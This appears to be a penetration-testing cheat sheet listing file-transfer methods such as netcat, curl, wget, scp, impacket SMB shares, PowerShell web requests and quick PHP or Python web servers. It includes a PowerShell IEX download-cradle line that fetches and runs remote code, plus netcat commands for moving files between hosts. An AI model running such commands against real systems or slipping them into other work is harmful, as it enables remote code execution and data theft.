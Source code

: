 # Methods

Copy & paste with base64 encoding.
`curl` Retrieve remote files.
`impacket-smbserver` Temporary SMB server.
`invoke-webrequest` PowerShell HTTP request.
`nc` Netcat file copy.
`net.webclient` PowerShell HTTP request.
`python` Temporary web server.
`scp` Remote file copy via SSH.
`wget` Retrieve remote files.

# FTP

Use ASCII mode for transferring text files.
`ascii`

Use binary mode for transferring all other file types.
`binary`

# Netcat

Receiving End
`nc -lvnp port > destination_file`

Sending End
`nc -w3 destination_ip port < source_file`

# PowerShell

Invoke Web Request
`Invoke-WebRequest "http://url/file" -OutFile "filepath\filename"`

Web Client
`IEX(new-object net.webclient).downloadstring('http://url/file')`

# SCP

Local to Remote
`scp -i id_rsa file user@remote-host:/remote/dir`

# SMB Server

```
impacket-smbserver -smb2support -username user -password pass share /local/dir

net use x: \\ipaddress\share /user:user pass
```

# Web Server

PHP
`php -S host:port`

Python
`python -m http.server port`

